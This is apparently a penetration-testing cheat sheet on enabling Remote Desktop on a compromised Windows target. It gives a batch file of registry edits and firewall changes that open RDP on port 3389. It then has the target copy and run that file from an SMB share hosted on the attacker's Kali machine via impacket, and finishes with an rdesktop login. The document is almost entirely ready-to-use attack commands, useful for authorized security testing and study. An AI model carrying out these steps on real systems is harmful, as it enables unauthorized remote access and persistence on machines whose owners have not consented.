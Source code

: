 # Enable Remote Desktop (RDP) on the target via an elevated shell

You will need an elevated shell to enable RDP

Save the following commands on a .bat file - ex.: `enablerdp.bat`

```
reg add "hklm\system\currentControlSet\Control\Terminal Server" /v "AllowTSConnections" /t REG_DWORD /d 0x1 /f
reg add "hklm\system\currentControlSet\Control\Terminal Server" /v "fDenyTSConnections" /t REG_DWORD /d 0x0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fAllowToGetHelp /t REG_DWORD /d 1 /f
netsh advfirewall set rule group="remote administration" new enable="yes"
netsh advfirewall firewall set rule group="remote administration" new enable=yes
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes profile=domain
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes profile=private
netsh firewall add portopening TCP 3389 "Remote Desktop"
netsh firewall set service RemoteDesktop enable
netsh firewall set service RemoteDesktop enable profile=ALL
netsh firewall set service RemoteAdmin enable
sc config TermService start= auto
net start Termservice
```

Start hosting the file on a SMB share.
```
cd <path>
impacket-smbserver share $(pwd) -smb2support
```


On the target copy the file and execute it.
```
xcopy \\<Kali_IP>\share\enablerdp.bat C:\Users\Administrator\Desktop\
C:\Users\Administrator\Desktop\enablerdp.bat
```


Now, try to access it
```
rdesktop <Target_IP> -d '<DOMAIN>' -u '<User>' -p '<Pwd>'
```

